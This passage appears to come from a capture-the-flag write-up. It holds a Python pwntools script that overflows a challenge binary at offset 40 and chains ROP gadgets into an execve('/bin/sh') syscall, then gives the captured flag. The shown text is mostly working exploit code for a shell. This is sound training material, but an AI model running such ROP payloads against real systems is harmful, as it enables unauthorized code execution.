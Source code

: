 ```python

def exploit():
    global io
    io = initialize()
    rop = ROP(exe)

    # some the gadgets used below won't be found using ROPgadget, the opcodes are
    # available just right after the wish() symbol.

    # https://stackoverflow.com/questions/3818755/imul-assembly-instruction-one-operand

    offset = 40
    payload = flat({
        offset: [
            elf.sym['wish'],
            0x4011b4,   # xor edx, edx; xor edi, edi; nop; nop; xor r12, r12; mov r12; rax; ret;    -> empties rdx
            0x40116e,   # imul edx ; shr rdx, 0x3f ; ret                                            -> multiplies, stores value in eax, since rdx are 0x0, any multiplication is 0x0
            0x04011c1,  # xor rsi, rsi; mov rsi, rax; ret;                                          -> empties rsi
            p64(0x04011ce) * 0x3b, # inc al; ret;                                                   -> execve
            rop.find_gadget(['pop rdi', 'ret'])[0],
            BINSH,
            rop.find_gadget(['syscall'])[0],
        ]
    })
    assert(len(payload) <= 600)
    io.sendline(payload)

    info('binsh: %#x', BINSH)
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
**Flag:** _CTF{94688cdd453093ee28814f908a81a73595e0cdfcb1ef8bbbb83e0a7cf5af611d}_
{% endhint %}

***

